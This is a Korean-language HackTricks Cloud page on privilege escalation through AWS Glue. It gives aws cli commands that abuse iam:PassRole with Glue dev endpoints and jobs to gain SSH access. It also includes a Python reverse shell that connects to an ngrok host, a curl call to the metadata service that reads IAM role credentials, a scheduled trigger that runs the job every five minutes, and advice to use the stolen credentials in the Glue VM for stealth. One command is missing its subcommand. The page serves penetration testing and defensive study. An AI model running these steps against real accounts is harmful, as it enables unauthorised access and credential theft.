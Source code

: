 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

이 권한을 가진 사용자는 **새로운 AWS Glue 개발 엔드포인트를 설정할 수 있으며**, **특정 권한을 가진 Glue에서 가정할 수 있는 기존 서비스 역할을 이 엔드포인트에 할당할 수 있습니다.**

설정 후, **공격자는 엔드포인트의 인스턴스에 SSH로 접속하여**, 할당된 역할의 IAM 자격 증명을 탈취할 수 있습니다:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
은폐 목적을 위해 Glue 가상 머신 내부의 IAM 자격 증명을 사용하는 것이 권장됩니다.

**잠재적 영향:** 지정된 Glue 서비스 역할로의 권한 상승.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

이 권한이 있는 사용자는 **기존 Glue 개발** 엔드포인트의 SSH 키를 **변경할 수 있어** SSH 접근을 가능하게 합니다. 이를 통해 공격자는 엔드포인트에 연결된 역할의 권한으로 명령을 실행할 수 있습니다:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**잠재적 영향:** 사용된 Glue 서비스 역할에 대한 권한 상승.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`**과 **`glue:CreateJob` 또는 `glue:UpdateJob`** 중 하나, 그리고 **`glue:StartJobRun` 또는 `glue:CreateTrigger`** 중 하나를 결합한 사용자는 **AWS Glue 작업**을 **생성하거나 업데이트**할 수 있으며, 임의의 **Glue 서비스 계정**을 연결하고 작업 실행을 시작할 수 있습니다. 작업의 기능에는 임의의 Python 코드를 실행하는 것이 포함되며, 이는 리버스 셸을 설정하는 데 악용될 수 있습니다. 이 리버스 셸은 Glue 작업에 연결된 역할의 **IAM 자격 증명**을 유출하는 데 사용될 수 있으며, 이는 해당 역할의 권한에 따라 잠재적인 무단 접근 또는 행동으로 이어질 수 있습니다.
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**잠재적 영향:** 지정된 glue 서비스 역할로의 권한 상승.

### `glue:UpdateJob`

업데이트 권한만으로도 공격자는 이미 연결된 역할의 IAM 자격 증명을 탈취할 수 있습니다.

**잠재적 영향:** 연결된 glue 서비스 역할로의 권한 상승.

## 참조

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
